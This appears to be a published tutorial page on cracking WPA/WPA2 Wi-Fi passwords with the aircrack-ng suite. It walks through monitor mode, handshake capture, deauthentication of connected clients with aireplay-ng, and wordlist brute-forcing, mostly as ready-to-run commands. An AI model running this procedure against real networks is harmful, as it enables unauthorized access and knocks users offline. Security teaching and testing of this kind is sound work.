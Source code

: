 ```yaml
---
hidden: true
icon: wifi-slash
---
```


# How to Crack a Wifi

This tutorial demonstrates how to crack a Wi-Fi network using a wireless adapter in monitor mode and the `aircrack-ng` suite. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized access to any network is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}

***

### 📌 Basic Information

#### 1. Network Protocols

Understanding the protocols used in Wi-Fi networks is essential:

* **WEP (Wired Equivalent Privacy):** An obsolete protocol with significant security flaws.
* **WPA (Wi-Fi Protected Access):** Improved security over WEP but still vulnerable to weak passwords.
* **WPA2:** More secure than WPA, using AES/PSK encryption. Still susceptible to brute-force attacks if weak passwords are used.
* **WPA3:** The latest standard with enhanced protection against brute-force attacks. However, not all networks have adopted it yet.

#### 2. Encryption and Authentication Methods

* **TKIP (Temporal Key Integrity Protocol):** Legacy encryption with dynamic keys per packet; vulnerable to brute-force attacks.
* **AES (Advanced Encryption Standard):** A secure symmetric encryption method widely used in modern Wi-Fi networks.
* **PSK (Pre-Shared Key):** Commonly used for home networks, where a shared key is used for authentication. Vulnerable to brute-force attacks if the password is weak.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

1. **Aircrack-ng Suite:** Installed on your system.
2. **Wireless Adapter Compatible with Monitor Mode:** Ensure your adapter supports packet injection and monitor mode.

***

### 🚀 Step-by-Step Process

#### Step 1: Install Aircrack-ng

If you're not using Kali Linux, you'll need to install the `aircrack-ng` suite. Run the following command in your terminal:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

_Note:_ If you're using Kali Linux, `aircrack-ng` is pre-installed.

***

#### Step 2: Enable Monitor Mode

To capture packets from the target network, your wireless adapter must be in monitor mode. First, identify your wireless interface by running:

```bash
ip addr
```

Once you know the interface name (e.g., `wlan0`), enable monitor mode:

```bash
sudo airmon-ng start [interface]
```

_Example:_\
If your interface is `wlan0`, run:

```bash
sudo airmon-ng start wlan0
```

This will create a new interface, typically named `wlan0mon`.

***

#### Step 3: Scan for Wi-Fi Networks

Use `airodump-ng` to scan for nearby Wi-Fi networks:

```bash
sudo airodump-ng [interface + mon]
```

_Example:_\
If your monitor mode interface is `wlan0mon`, run:

```bash
sudo airodump-ng wlan0mon
```

This will display a list of available networks, including their BSSID (MAC address), channel, and encryption type. Note down the details of the target network.

***

#### Step 4: Capture the Handshake

Focus on the target network by capturing its handshake. Use the following command:

```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [output file] [interface + mon]
```

_Example:_\
If the target network is on channel 6 with BSSID `00:11:22:33:44:55`, run:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```

Leave this process running until the handshake is captured. You can verify the capture by checking the output file (`capture-01.cap`).

To speed up the handshake capture, deauthenticate connected clients using `aireplay-ng`:

```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [STATION] [interface + mon]
```

_Example:_\
If the station (connected device) is `66:77:88:99:AA:BB`, run:

```bash
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

***

#### Step 5: Crack the Password

Once you have the handshake file, use `aircrack-ng` to attempt cracking the password. Provide a wordlist for brute-forcing:

```bash
sudo aircrack-ng -w [wordlist file] [handshake file]
```

_Example:_\
If your wordlist is `rockyou.txt` and the handshake file is `capture-01.cap`, run:

```bash
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

The tool will try each password in the wordlist until it finds a match or exhausts the list.

***

### 🛠 Tips and Best Practices

1. **Use a Strong Wordlist:** Tools like `hashcat` or online resources provide comprehensive wordlists.
2. **Optimize Your Wireless Adapter:** Ensure your adapter is compatible with packet injection and has good signal reception.
3. **Be Patient:** Cracking strong passwords may take time, depending on the complexity and length of the passphrase.

***

### Conclusion

By following these steps, you can learn how to crack a Wi-Fi network using `aircrack-ng`. Remember to use this knowledge responsibly and within legal boundaries. Happy learning!
